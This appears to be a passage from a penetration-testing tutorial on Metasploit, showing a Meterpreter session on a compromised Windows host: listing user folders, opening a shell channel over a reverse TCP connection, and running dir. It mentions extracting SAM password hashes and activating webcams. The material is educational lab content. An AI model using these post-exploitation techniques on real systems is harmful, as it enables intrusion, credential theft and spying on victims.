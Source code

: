 Pretty nifty. From extracting user hashes from SAM to taking screenshots and activating webcams. All of this is done from the comfort of a Linux-style command line. Exploring further, we also see the option to open a shell channel. This will place us in the actual Windows command-line interface.

#### MSF - Meterpreter Navigation

  Payloads

```shell-session
meterpreter > cd Users
meterpreter > ls

Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2017-07-21 06:56:23 +0000  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  All Users
40555/r-xr-xr-x   8192  dir   2009-07-14 03:20:08 +0000  Default
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 03:20:08 +0000  Public
100666/rw-rw-rw-  174   fil   2009-07-14 04:54:24 +0000  desktop.ini
40777/rwxrwxrwx   8192  dir   2017-07-14 13:45:33 +0000  haris


meterpreter > shell

Process 2664 created.
Channel 1 created.

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>
```

`Channel 1` has been created, and we are automatically placed into the CLI for this machine. The channel here represents the connection between our device and the target host, which has been established in a reverse TCP connection (from the target host to us) using a Meterpreter Stager and Stage. The stager was activated on our machine to await a connection request initialized by the Stage payload on the target machine.

Moving into a standard shell on the target is helpful in some cases, but Meterpreter can also navigate and perform actions on the victim machine. So we see that the commands have changed, but we have the same privilege level within the system.

#### MSF - Windows CMD

  Payloads

```shell-session
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users

21/07/2017  07:56    <DIR>          .
21/07/2017  07:56    <DIR>          ..
21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
```